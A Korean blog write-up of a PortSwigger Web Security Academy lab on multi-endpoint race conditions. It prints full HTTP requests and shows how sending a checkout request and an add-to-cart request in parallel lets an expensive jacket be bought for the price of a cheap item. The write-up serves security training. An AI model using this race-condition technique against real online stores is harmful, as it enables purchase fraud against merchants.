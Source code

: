 ```yaml
---
layout: post
title: "Burp Academy-레이스컨디션 관련 취약점: Limit overrun race conditions"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, 레이스컨디션, Race Condition]
toc: true
last_modified_at: 2023-09-01 10:33:00 +0900
---
```


# 개요
- 2023년 새로 추가된 레이스 컨디션 관련 취약점 문제이다. 
- 이 문제는 여러개의 엔드포인트에 동시에 요청을 보내는 방식의 레이스 컨디션(Multi-endpoint race conditions) 문제이다.
- 예를 들면, 장바구니에 상품을 넣고 구매를 진행하는데, 구매가 완료되기 전에 상품을 하나 더 넣으면 어떻게 될까? 레이스 컨디션에 취약한 EC사이트라면 여러개의 상품이 구매되는 결과가 될 것이다. 
- 문제 주소: https://portswigger.net/web-security/race-conditions/lab-race-conditions-multi-endpoint
- 취약점 설명페이지: https://portswigger.net/web-security/race-conditions#limit-overrun-race-conditions
- 난이도: PRACTITIONER (보통)

# Multi-endpoint collisions
- 이름 그대로 여러개의 엔드포인트가 조합되면 레이스 컨디션이 발생할 수 있는 상황을 말한다. 
- 예를 들면, 장바구니에 담은 상품을 결제할 때, 결제하는 타이밍과 거의 동시에 장바구니 추가 요청을 보내면 어떻게 될까? 결제는 하나의 상품에 대해서 이루어졌는데 추가된 상품도 같이 구매될 수도 있다. 

# 문제 개요

```
This lab's purchasing flow contains a race condition that enables you to purchase items for an unintended price.

To solve the lab, successfully purchase a Lightweight L33t Leather Jacket.

You can log into your account with the following credentials: wiener:peter.

Note
Solving this lab requires Burp Suite 2023.9 or higher.

Tip
When experimenting, we recommend purchasing the gift card as you can later redeem this to avoid running out of store credit.
```

# 살펴보기, 어떻게 풀지 생각해보기 
로그인하면 다음과 같은 화면이 나타난다. 계정의 잔고는 100달러가 있고, 쓸 수 있는 Gift card가 주어지지 않았다. 사야하는 레더자켓은 1330불정도 한다. 음.. 

![로그인후 모습](/images/burp-academy-race-condition-3-1.png)

1. Giftcard는 상품으로 팔고 있다. 재킷바로 옆에 있다. Giftcard를 구매해보면 다음과 같이 나온다. 
10달러로 10달러 충전할 수 있는 카드를 산 셈이다. 

![기프트카드구매후 모습](/images/burp-academy-race-condition-3-2.png)

Code: zrfKg5KWcx

2. Giftcard를 사용하는 엔드포인트에 레이스 컨디션 취약점이 있는지 확인해보자. 만약 취약점이 있다면 동일한 코드를 여러번 사용할 수 있을 것이다. 이를 통해 잔고를 불릴 수 있을 것이다. 만약 13330불 이상으로 충전할 수 있다면 이 것만으로도 문제를 풀 수 있을 것이다. 

3. 하나더 생각할 수 있는 것은 결제를 하는 타이밍에 장바구니에 재킷을 추가하는 타입의 레이스컨디션이다. 싼 아이템을 구매하면서 동시에 장바구니에 재킷을 추가한다면 재킷도 함께 구매되지 않을까.

# Giftcard 동시 사용가능할지 테스트 

1. Giftcard를 한번 사용해본다. 

![My Account페이지](/images/burp-academy-race-condition-3-3.png)

Gitfcard를 사용하는 요청은 다음과 같다. 

```http
POST /gift-card HTTP/2
Host: 0a3400fd03e713a282146fad007b00ca.web-security-academy.net
Cookie: session=WeVAxyCA9MP8nW4k1Shqsjhgra7kywyJ
Content-Length: 58
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a3400fd03e713a282146fad007b00ca.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3400fd03e713a282146fad007b00ca.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

csrf=qOfJZydKrg6FkUwyTGIbknQyr4CMCxQx&gift-card=zrfKg5KWcx

```

이 때의 응답이다. 

```http
HTTP/2 302 Found
Location: /my-account
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```

2. 그러면 Giftcard를 한장 더 사서 레이스 컨디션을 시도해본다. 
Single Packet Attack 테크닉으로 몇 번 시도해보면 레이스컨디션이 안되는 것을 알 수 있다. 두번째 요청부터는 400응답을 돌려준다. 

![레이스컨디션실패](/images/burp-academy-race-condition-3-4.png)

# 결제 타이밍에 장바구니 추가하기 테크닉 
결제를 하는 요청과 장바구니에 추가하는 요청을 동시에 보내는 방법이다. 이를 위해서 각각의 요청을 준비한다. 

## 싼 상품 결제 요청 
장바구니에 있는 아이템을 결제 하는 요청이다. 

```http 
POST /cart/checkout HTTP/2
Host: 0a3400fd03e713a282146fad007b00ca.web-security-academy.net
Cookie: session=WeVAxyCA9MP8nW4k1Shqsjhgra7kywyJ
Content-Length: 37
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a3400fd03e713a282146fad007b00ca.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3400fd03e713a282146fad007b00ca.web-security-academy.net/cart
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

csrf=qOfJZydKrg6FkUwyTGIbknQyr4CMCxQx
```


## 레더재킷 장바구니에 추가하기 
장바구니에 추가하는 요청이다. 구매해야할 레더재킷의 productId는 1이므로 1을 지정한다.

```http 
POST /cart HTTP/2
Host: 0a3400fd03e713a282146fad007b00ca.web-security-academy.net
Cookie: session=WeVAxyCA9MP8nW4k1Shqsjhgra7kywyJ
Content-Length: 36
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a3400fd03e713a282146fad007b00ca.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3400fd03e713a282146fad007b00ca.web-security-academy.net/product?productId=2
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

productId=1&redir=PRODUCT&quantity=1
```

## 준비 
장바구니에 뭔가 싼 상품이나 Giftcard를 추가해둔다. 

## 공격
위의 두 요청을 Reapeter에서 그룹으로 묶어서 Single Packet Attack을 수행한다.  (Send 셀렉트박스에서 Send Group in parallel (single packet attack) 을 선택한다.)

그리고 웹 페이지를 재로딩하면 문제가 풀렸다는 메세지가 표시된다. 레이스 컨디션에 성공한 것이다! 이 레이스 컨디션은 카트에 추가하는 것보다 구매를 하는 요청이 아주 조금더 빨리 서버에 도달할 필요가 있다. 따라서 경우에 따라서는 실패할 수도 있다. 그럴 때는 될 때까지 재시도하면 된다. 이번에는 운이 좋아서 한번에 성공했다. 

![Multi-endpoint 문제풀이성공](/images/burp-academy-race-condition-3-success.png)